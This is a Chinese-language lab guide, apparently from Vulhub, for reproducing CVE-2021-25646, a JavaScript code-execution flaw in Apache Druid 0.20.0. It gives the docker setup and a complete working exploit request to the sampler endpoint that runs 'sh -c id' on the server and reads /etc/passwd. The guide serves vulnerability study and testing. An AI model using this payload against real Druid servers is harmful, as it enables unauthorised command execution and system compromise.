


Apache Druid 代码执行漏洞 CVE-2021-25646¶
漏洞描述¶
Apache Druid是一个开源的分布式数据存储。
Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。
参考链接：
- https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution
- https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
环境搭建¶
Vulhub执行如下命令启动一个Apache Druid 0.20.0服务器：
docker-compose up -d
服务启动后，访问http://your-ip:8888即可查看到Apache Druid主页。

漏洞复现¶
直接发送如下请求即可执行其中的JavaScript代码：
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
{
"type":"index",
"spec":{
"ioConfig":{
"type":"index",
"firehose":{
"type":"local",
"baseDir":"/etc",
"filter":"passwd"
}
},
"dataSchema":{
"dataSource":"test",
"parser":{
"parseSpec":{
"format":"javascript",
"timestampSpec":{
},
"dimensionsSpec":{
},
"function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
"":{
"enabled":"true"
}
}
}
}
},
"samplerConfig":{
"numRows":10
}
}
可见，id命令已被成功执行：
